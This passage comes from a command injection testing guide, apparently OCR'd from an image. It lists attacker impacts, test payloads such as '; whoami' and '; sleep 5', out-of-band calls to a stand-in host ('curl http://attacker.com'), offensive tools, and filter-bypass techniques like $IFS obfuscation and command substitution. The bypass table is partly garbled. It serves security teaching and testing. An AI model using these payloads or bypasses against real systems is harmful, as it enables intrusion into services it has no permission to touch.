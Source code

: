 Read/write/delete sensitive files.

Execute arbitrary OS commands.

Download malware or reverse shells.

Lateral movement within the internal network.

Persistent backdoors and rootkits.

🔍 Detection Methods
✅ Manual Testing
Find input vectors:

Parameters in form fields, headers, query strings.

Inject test payloads:

bash
Copy
Edit
; whoami
&& id
| uname -a
Blind command injection:

Use time delays to confirm code execution:

bash
Copy
Edit
; sleep 5
Out-of-Band (OAST):

Payloads like:

bash
Copy
Edit
nslookup attacker.com
curl http://attacker.com
🧪 Tools
Burp Suite

Commix (Command Injection Exploiter)

Nuclei

Metasploit

🎭 Bypass Types
Technique	Example
Encoding	; → %3B, & → %26
Input Obfuscation	ping$IFS-attacker.com or echo$9test
Chained commands	& whoami && id
Alternate separators	`
Inline functions	`whoami`, $(whoami)
